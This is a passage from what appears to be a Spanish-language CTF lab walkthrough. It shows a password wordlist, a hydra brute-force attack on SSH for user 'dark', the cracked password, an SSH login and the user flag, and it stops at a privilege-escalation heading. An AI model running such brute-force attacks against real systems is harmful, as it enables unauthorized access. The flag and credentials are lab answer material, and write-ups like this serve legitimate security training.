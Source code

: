 ```
r!p_@_fakeb@by
cl@nd3st!n3_2_0
777_n3ver_ch@ng3
b!llyh@cker2024
4lph@_surviv0r
Blackout!eXodus22
666root_!3
B@d#@ss__sh3l!11
```

Por lo que tendremos que utilizar `hydra` para sacar las credenciales del usuario `dark` con la lista que obtuvimos:

### SSH

```shell
hydra -l dark -P dic.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-14 09:42:04
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 51 tasks per 1 server, overall 51 tasks, 51 login tries (l:1/p:51), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-14 09:42:08
```

Vemos que nos saco las credenciales del usuario.

Por lo que nos conectaremos por `ssh`:

```shell
ssh dark@<IP>
```

Metemos la contarseña `oniondarkgood` y estaremos dentro, por lo que leeremos la flag del user.

> user.txt

```
2eedcb4e067f16aa9c795fd05f3056bd
```

## Escalate Privileges
